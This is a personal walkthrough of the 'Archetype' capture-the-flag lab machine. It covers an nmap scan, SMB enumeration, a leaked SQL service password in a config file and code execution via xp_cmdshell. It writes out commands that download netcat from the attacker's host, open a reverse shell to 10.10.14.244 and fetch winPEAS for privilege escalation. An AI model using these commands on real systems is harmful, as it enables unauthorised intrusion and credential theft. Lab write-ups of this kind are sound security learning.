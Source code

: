 ```yaml
---
title: Archetype
description: Archetype walkthrough
---
```


# Archetype

November 25, 2024 

Difficulty: Very Easy

![image.png](../../../assets/Archetype/image.png)

### Nmap

```python
┌──(khem㉿kali)-[~]
└─$ nmap -F -sV -sC  10.129.95.187 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-25 09:58 EST
Nmap scan report for 10.129.95.187
Host is up (0.35s latency).
Not shown: 96 closed tcp ports (conn-refused)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-info: 
|   10.129.95.187:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-11-25T14:54:52
|_Not valid after:  2054-11-25T14:54:52
| ms-sql-ntlm-info: 
|   10.129.95.187:1433: 
|     Target_Name: ARCHETYPE
|     NetBIOS_Domain_Name: ARCHETYPE
|     NetBIOS_Computer_Name: ARCHETYPE
|     DNS_Domain_Name: Archetype
|     DNS_Computer_Name: Archetype
|_    Product_Version: 10.0.17763
|_ssl-date: 2024-11-25T14:58:40+00:00; +2s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-11-25T06:58:29-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h36m02s, deviation: 3h34m42s, median: 1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-11-25T14:58:26
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.12 seconds

```

Found many ports open from the nmap scan. We gonna focus on SMB for now. which is, port 445.

Now we gonna find SMB shares as we found that guest user is allowed.

![image.png](../../../assets/Archetype/image%201.png)

![image.png](../../../assets/Archetype/image%202.png)

Logged in as guest user. we can 4 shares, 3 of them are hidden, which is indicated by dollar sign. It means, we require authentication for access. However we have 1 share open to us. Lets see what we got in there.

![image.png](../../../assets/Archetype/image%203.png)

prod.dtsConfig

```python
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate=
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration> 
```

Here we can see credentials for SQL server account. Now we have credentials for SQL server and we gonna see what is there for us.

![image.png](../../../assets/Archetype/image%204.png)

![image.png](../../../assets/Archetype/image%205.png)

Connect using the tool called impacket-mssqlclient which built connection to microsoft server. 

```python
SQL (ARCHETYPE\sql_svc  dbo@master)> help

    lcd {path}                 - changes the current local directory to {path}
    exit                       - terminates the server process (and this session)
    enable_xp_cmdshell         - you know what it means
    disable_xp_cmdshell        - you know what it means
    enum_db                    - enum databases
    enum_links                 - enum linked servers
    enum_impersonate           - check logins that can be impersonated
    enum_logins                - enum login users
    enum_users                 - enum current db users
    enum_owner                 - enum db owner
    exec_as_user {user}        - impersonate with execute as user
    exec_as_login {login}      - impersonate with execute as login
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
    xp_dirtree {path}          - executes xp_dirtree on the path
    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
    ! {cmd}                    - executes a local shell cmd
    show_query                 - show query
    mask_query                 - mask query
```

![image.png](../../../assets/Archetype/image%206.png)

if we run this command we get to execute arbitrary operation system commands. Now we can execute our own command, so we can add reverse shell in it. Thank god that it got enabled, actually it is disabled by default, if not we have to move to another option CLR assemblies(if allowed).

now lets make the shell stable, for that we need file which can be found [here](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------):

![image.png](../../../assets/Archetype/image%207.png)

![image.png](../../../assets/Archetype/image%208.png)

```python
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.244:8888/nc64.exe -outfile nc64.exe" 
```

now lets execute the code, but before that keep the listener on 

```python
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.244 4747"
```

Now I realize windows is different from [linux.](http://linux.In) In linux these steps are just done with one line command. this is crazy, but I am learning it. Lets move foreword!!!

awesome!!!

### Privilege Escalation

[https://github.com/carlospolop/PEASS-ng/releases/download/20230101/winPEASx64.exe](https://github.com/carlospolop/PEASS-ng/releases/download/20230101/winPEASx64.exe)

```python
wget [http://10.10.14.244:8888/winPEASx64.exe](http://10.10.14.9/winPEASx64.exe) -outfile winPEASx64.exe
```

![image.png](../../../assets/Archetype/image%209.png)

lets run winpeas

![image.png](../../../assets/Archetype/image%2010.png)

I am actually running winpeas in windows can’t believe it yarr 😳😳😳. Now the problem is I don’t know how to see the result, hope it be same like linux.

First thing I spot 

![image.png](../../../assets/Archetype/image%2011.png)

```python
����������͹ Current Token privileges
� Check if you can escalate privilege using some enabled token https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#token-manipulation                                                                                                                                
    SeAssignPrimaryTokenPrivilege: DISABLED
    SeIncreaseQuotaPrivilege: DISABLED
    SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeImpersonatePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeCreateGlobalPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeIncreaseWorkingSetPrivilege: DISABLED

����������͹ Clipboard text

```

![image.png](../../../assets/Archetype/image%2012.png)

![image.png](../../../assets/Archetype/image%2013.png)

In one of the information says that sometimes it contains user credentials as well. 

Reason why I looked up at this is after seeing official walkthrough. It's important to look at the official walkthrough, because it gives all the information and explains well.

![image.png](../../../assets/Archetype/image%2014.png)

![image.png](../../../assets/Archetype/image%2015.png)

See we got the administrator’s credentials. 

![image.png](../../../assets/Archetype/image%2016.png)

![image.png](../../../assets/Archetype/image%2017.png)